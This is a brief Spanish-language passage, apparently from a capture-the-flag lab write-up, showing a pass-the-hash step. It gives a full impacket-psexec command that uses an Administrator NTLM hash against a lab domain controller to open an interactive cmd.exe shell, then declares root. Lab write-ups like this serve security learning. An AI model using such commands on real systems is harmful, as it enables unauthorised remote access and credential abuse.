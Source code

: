 ![[Pasted image 20240611210426.png]]
### impacket-psexec
con impacket-psexec podemos realizar un pass de hash utilizando el hash que hemos conseguido del usuario administrator 
`Nota: incluir cmd.exe para obtener una consola intereactiva`
```python
impacket-psexec EGITISTICAL-BANCK.LOCAL/Administrator@10.10.10.175 cmd.exe -hashes :823452073d75b9d1cf70ebdf86c7f98e
```

![[Pasted image 20240611210438.png]]

### WE ARE ROOT